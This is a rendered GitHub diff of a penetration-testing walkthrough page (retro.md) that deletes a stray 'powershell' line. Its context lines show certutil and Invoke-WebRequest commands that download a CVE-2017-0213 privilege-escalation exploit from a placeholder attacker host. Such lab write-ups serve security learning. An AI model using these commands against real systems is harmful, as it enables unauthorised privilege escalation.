

Before and after one commit to buda-sys/Buda_Hack_Security, a Markdown page: budahacksecurity_static/uploads/retro.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/budahacksecurity_static/uploads/retro.md
+++ b/budahacksecurity_static/uploads/retro.md
@@ -138,7 +138,6 @@ certutil -urlcache -f http://<YOUR_IP>:8080/CVE-2017-0213_x64.exe CVE-2017-0213_
 
 Or alternatively:
 
-powershell
 
 ```powershell
 Invoke-WebRequest -Uri "http://<YOUR_IP>:8080/CVE-2017-0213_x64.exe" -OutFile "CVE-2017-0213_x64.exe"
````
Also changed, not shown: other parts of budahacksecurity_static/uploads/retro.md (+2 -2 lines), budahacksecurity_static/uploads/skill_pivoting.md (+2 -2 lines), budahacksecurity_static/uploads/support.md (+2 -2 lines).
